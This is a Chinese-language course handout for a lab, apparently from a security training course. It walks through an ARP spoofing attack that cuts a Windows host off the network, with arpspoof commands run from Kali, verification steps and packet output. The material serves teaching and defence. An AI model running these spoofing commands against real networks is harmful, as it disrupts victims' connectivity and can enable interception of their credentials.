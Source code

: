 # ARP断网攻击

## 1.课前准备

kali 作为ARP攻击机，192.168.110.26  MAC地址：00:0c:29:fc:66:46

win10 作为被攻击方，192.168.110.12   MAC地址：1c:69:7a:a4:cf:92 

网关（路由器），192.168.110.1    MAC地址：e4:3a:6e:35:98:00

需要注意的时，两台主机需要在同一个局域网，并且网络通畅。

```
ping www.mashibing.com
```

计算上网的过程示意图：

![image-20240924223642200](2.ARP断网攻击课件/image-20240924223642200.png)	

## 2.arp断网攻击原理

他的原理是：向目标主机不断的发送ARP报文，然后将其报文中的网关Mac地址设置成为攻击机的主机MAC地址，
然后目标主机想要访问网络发送数据包时，都会发送到攻击机，然后攻击机只需要做一个丢弃数据包的
命令，就可以断掉目标主机的网络了。

## 3.arpspoof介绍:

arpspoof [spuːf]  是一个好用的ARP欺骗工具，攻击者通过毒化受害者ARP缓存，将网关MAC替换为攻击者MAC，然后攻击者可截获受害者发送和收到的数据包，从而获取受害者账户、密码等相关敏感信息。Kali linux中自带了该工具。

命令使用讲解

```
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
-i：指定网卡
-c:攻击机的IP
-t 目标机器的IP
-r：网关IP
```

## 4.具体攻击步骤：

**1.首先确保两台机器在同一局域网络下，并且可以互相通讯。**

​	1.1查看kali的ip：

```
ip a
```

​	1.2 查看windows的ip：

```
ipconfig /all
```

​	1.3 windows ping kali:

```
ping 192.168.110.26
```

​	1.4 win10 查看arp表，记录网关的信息

```
arp -a |findstr 192.168.110.1
```

**2.kali进行断网攻击**

此时输入该命令后，win10将会被断网。

```
arpspoof -i eth0 -r 192.168.110.1 -t 192.168.110.12
-i:指定网卡
-r:指定网关ip
-t:指定靶机ip
```

**3.win10 查看网络连接 和 kali 的网络链接**

```
ping www.mashibing.com
```

**4.win10查看此时的arp表**

```
arp -a 
或者
arp -a |findstr 192.168.110.1
```

**5.结束断网攻击**

```
ctrl+C
```

**6.win10重新查看网络状态**

```
ping www.mashibing.com
```

**7.win10重新查看arp表**

```
arp -a |findstr 192.168.110.1
```

## 5.ARP断网攻击原理深入分析

**1.ARP攻击断网的过程 **

```
0:c:29:fc:66:46 1c:69:7a:a4:cf:92 0806 42: arp reply 192.168.110.1 is-at 0:c:29:fc:66:46
0:c:29:fc:66:46 e4:3a:6e:35:98:0 0806 42: arp reply 192.168.110.12 is-at 0:c:29:fc:66:46
ARP攻击机器 不停的在告诉 192.168.110.1（网关）  192.168.110.12 的mac地址是 00:0c:29:fc:66:46
ARP攻击机器 不停的在告诉 192.168.110.12（靶机） 192.168.110.1 的mac地址是 00:0c:29:fc:66:46

Ctrl+C停止攻击后
0:c:29:fc:66:46 1c:69:7a:a4:cf:92 0806 42: arp reply 192.168.110.1 is-at e4:3a:6e:35:98:0
0:c:29:fc:66:46 e4:3a:6e:35:98:0 0806 42: arp reply 192.168.110.12 is-at 1c:69:7a:a4:cf:92
ARP攻击机器 重新告诉 192.168.110.12（靶机） 192.168.110.1 的mac地址是 e4:3a:6e:35:98:0
ARP攻击机器 重新告诉 192.168.110.1（网关）  192.168.110.12 的mac地址是 1c:69:7a:a4:cf:92
```

**2.ARP断网原理图：**

![image-20240924223701400](2.ARP断网攻击课件/image-20240924223701400.png)	

## 6.课堂小结

请看思维导图：ARP断网攻击课程总结.xmind